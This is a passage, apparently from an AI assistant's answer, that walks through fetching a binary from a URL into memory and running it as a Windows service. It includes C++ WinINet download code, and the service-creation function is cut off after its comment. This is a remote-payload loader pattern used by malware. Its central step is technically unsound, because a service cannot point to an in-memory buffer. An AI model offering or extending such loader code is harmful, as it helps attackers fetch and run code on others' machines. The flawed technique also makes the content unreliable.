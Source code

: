 2. **Create and Start a Service**: 
   - Create a service that points to the memory location where the binary is stored.
   - Start the service.

3. **Error Handling**: 
   - Ensure that proper error handling is in place for service creation and execution.

### **Code Example**

I'll adapt the C++ code to demonstrate this:

```cpp
#include <windows.h>
#include <wininet.h>
#include <iostream>
#include <tlhelp32.h>

#pragma comment(lib, "wininet.lib")

// Function to download a binary from a URL and store it in memory
bool DownloadBinaryFromURL(const char* url, unsigned char** buffer, size_t* bufferSize) {
    HINTERNET hInternet = InternetOpenA("WinINet Example", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) return false;

    HINTERNET hConnect = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (!hConnect) {
        InternetCloseHandle(hInternet);
        return false;
    }

    DWORD bytesRead = 0;
    DWORD totalBytesRead = 0;
    const DWORD bufferSizeIncrement = 4096;
    *bufferSize = 0;
    *buffer = nullptr;

    do {
        *buffer = (unsigned char*)realloc(*buffer, *bufferSize + bufferSizeIncrement);
        if (!*buffer) {
            InternetCloseHandle(hConnect);
            InternetCloseHandle(hInternet);
            return false;
        }

        if (!InternetReadFile(hConnect, *buffer + *bufferSize, bufferSizeIncrement, &bytesRead)) {
            free(*buffer);
            *buffer = nullptr;
            InternetCloseHandle(hConnect);
            InternetCloseHandle(hInternet);
            return false;
        }

        *bufferSize += bytesRead;
        totalBytesRead += bytesRead;

    } while (bytesRead > 0);

    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);
    return totalBytesRead > 0;
}

// Function to create and start a service using the binary stored in memory
```